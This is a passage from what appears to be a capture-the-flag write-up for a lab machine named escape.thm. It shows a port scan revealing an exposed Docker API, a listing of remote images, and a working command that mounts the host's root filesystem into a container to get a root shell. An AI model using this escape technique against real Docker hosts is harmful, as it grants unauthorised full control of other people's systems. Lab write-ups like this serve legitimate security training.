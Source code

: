 ### Open Ports after port knocking

Let's check which port is now open

```bash
Starting Nmap 7.60 ( https://nmap.org ) at 2021-02-15 22:24 +0545
Nmap scan report for escape.thm 
Host is up (0.17s latency).
Not shown: 65530 closed ports
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
2375/tcp  open     docker
4153/tcp  filtered mbl-battd
19344/tcp filtered unknown
```

So we have a docker port. Let's enumerate for the images

```bash
# docker -H escape.thm images
REPOSITORY                                    TAG                 IMAGE ID            CREATED             SIZE
exif-api-dev                                  latest              4084cb55e1c7        5 weeks ago         214MB
exif-api                                      latest              923c5821b907        5 weeks ago         163MB
frontend                                      latest              577f9da1362e        5 weeks ago         138MB
endlessh                                      latest              7bde5182dc5e        5 weeks ago         5.67MB
nginx                                         latest              ae2feff98a0c        2 months ago        133MB
debian                                        10-slim             4a9cd57610d6        2 months ago        69.2MB
registry.access.redhat.com/ubi8/ubi-minimal   8.3                 7331d26c1fdf        2 months ago        103MB
alpine                                        3.9                 78a2ce922f86        9 months ago        5.55MB
```

So we have a few images, let's try exploiting this to mount the host machine's files to a new container

### Using Nginx Image to mount host filesystem into container

```bash
# docker -H escape.thm:2375 run -v /:/mnt --rm -it nginx chroot /mnt sh

-H for remote host <host>:<port> (escape.thm:2375)
-v Mounting volume /:/mnt ( Mount / of host to /mnt of the container )
--rm remove the container after user exits the container
-it for interactive mode
chroot /mnt to change root directory to /mnt
sh to run shell
```
